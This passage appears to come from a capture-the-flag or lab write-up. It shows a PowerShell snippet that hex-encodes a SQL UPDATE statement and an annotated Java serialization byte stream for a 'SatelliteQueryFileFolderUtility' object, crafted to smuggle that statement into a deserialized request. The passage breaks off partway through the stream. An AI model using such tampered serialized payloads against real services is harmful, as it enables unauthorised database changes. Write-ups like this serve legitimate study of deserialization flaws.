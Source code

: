 A quick way to get these values in PowerShell:

```powershell
$string = 'UPDATE pointing_mode SET numerical_mode=1 WHERE id=1'

$hex = ""
$charArray = $string.ToCharArray()
Foreach ($element in $charArray) {
    $hex = $hex + [System.String]::Format("{0:X}", [System.Convert]::ToUInt32($element))
    }

Write-Output "Length - $($string.Length) - 0x00 $($string.Length.ToString('X'))"
Write-Output "Value - $string - 0x$hex"

<#
output:
Length - 52 - 0x00 34
Value - UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706F696E74696E675F6D6F646520534554206E756D65726963616C5F6D6F64653D312057484552452069643D31
#>
```

All that is really needed is to update the hex, but just for better readability I also updated the text that goes along with the hex values. So my new file now looks like this:

```
STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
        1:
          Boolean - Z - 0x5a
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
```